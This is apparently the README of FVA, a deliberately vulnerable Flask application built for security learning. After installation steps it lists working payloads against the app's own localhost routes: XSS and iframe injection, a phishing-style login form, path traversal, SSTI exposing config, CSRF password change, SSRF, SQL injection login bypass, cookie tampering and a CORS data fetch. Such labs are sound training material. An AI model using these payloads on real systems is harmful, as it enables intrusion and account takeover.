 # Description:
FVA Flask Vulnerable Application was developed for the purpose of learning. 

# Installation
##### Clone and install the application
```BASH
git clone https://github.com/FIR-UIII/FVA.git
cd FVA
python3 -m venv {name}
source bin/activate
pip install -r requirements.txt
```
##### Install PostgreSQL
Please see the documentation: https://www.postgresql.org/docs/current/tutorial-install.html

# TODO:
* сделать заглушки в случае невалидных логина или пароля или необходиомсти аутентификации
* csrf добавить подключение к БД psql
* перенести в env основные конфигурационные настройки

# Vulnerabilities 
### XSS + Iframe injection

```html
http://localhost:8888/xss?param=<script>alert(1)</script>

<img src=https://stackoverflow.com/ onerror=alert(1)>

<script>alert(document.domain)</script>

<a href="javascript:alert(document.domain);">click here</a>

<iframe src="data:text/html,<script>alert('XSS')</script>"></iframe>

<iframe src="http://httpforever.com/></iframe>

<form name="login" action="http://ip: port/">
 	<label for="login">login: </label>
 	<input type="text" name="login" required>
 	<br>
 	<label for="password">password: </label>
 	<input type="password" name="password" required>
 	<br>
 	<input type="submit" value="Login!">
 </form>

<script>
window.addEventListener('load', function() {
    var sw = "/sw.js";
    navigator.serviceWorker.register(sw, {scope: '/'})
       .then(function(registration) {
            console.log('Service Worker registered successfully');
        })
       .catch(function(err) {
            console.error('Service Worker registration failed:', err);
        });
});
</script>
```

# PATH TRAVERSAL
открыть код и найти каким образом идет обращение к картинке
'view-source:http://localhost:8888/path_travers'
'<img src="/path_travers_img/?img=/static/scripting.png" alt="what_is_that" width="100" height="100"></p>'

exploit
```URL
http://localhost:8888/path-travers-img/?img=/static/scripting.png
http://localhost:8888/path_travers_img/?img=/README.md
http://localhost:8888/path_travers_img/?img=/../venv.txt
```

# SSTI 
exploit
```URL
http://localhost:8888/ssti?param={{(9*9)}}
http://localhost:8888/ssti?param={{%20config.items()%20}}
```

# XSS via Service worker
/upload

PoC upload sw.js
```js
setInterval(function() {
  console.log("U been h@cked");
}, 5000);
```

# CSRF
/csrf через другую вкладку
python3 -m http.server 9000
Фишинговая ссылка hacker_csrf.html
http://127.0.0.1:9000/Projects/FVA/hacker_csrf.html

/csrf через GET
http://localhost:8888/change_password?id=1&new_password=h@cked

# SSRF
GET request: 
http://localhost:8888/ssrf?url=http://localhost:8888/xss

POST request: 
curl -X POST -d "url=http://localhost:8888/xss" http://localhost:8888/ssrf


# SQl injection
brew services start postgresql
psgl postgres
python init_db.py from modules.init_db import create_database
=# \dt
=# SELECT * FROM users;

injection 
login: ' OR 1=1; --
password: any

# command_injection
/go to command_injection
change cookie to admin > base64

# CORS test
python -m http.server 8000
devtools > console:
fetch('http://localhost:8888/api/users')
  .then(response => response.text())
  .then(data => console.log(data))
  .catch(error => console.error('Error:', error));

  
